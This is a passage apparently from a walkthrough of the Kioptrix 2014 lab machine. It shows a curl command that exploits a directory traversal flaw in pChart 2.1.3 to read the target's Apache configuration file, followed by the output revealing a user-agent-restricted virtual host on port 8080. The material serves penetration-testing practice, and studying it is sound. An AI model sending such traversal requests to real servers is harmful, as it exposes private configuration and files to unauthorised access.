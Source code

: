 ![](/assets/images/kioptrix2014/screenshot-2.png)

Listing the default apache configuration file, we can see the document root of the service running on port 8080, and the user agent allowed to access it.

```bash
root@kali:~$ curl -s "http://192.168.179.168/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf" | html2text | tail -19

SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>



</VirtualHost>


Include etc/apache22/Includes/*.conf
```
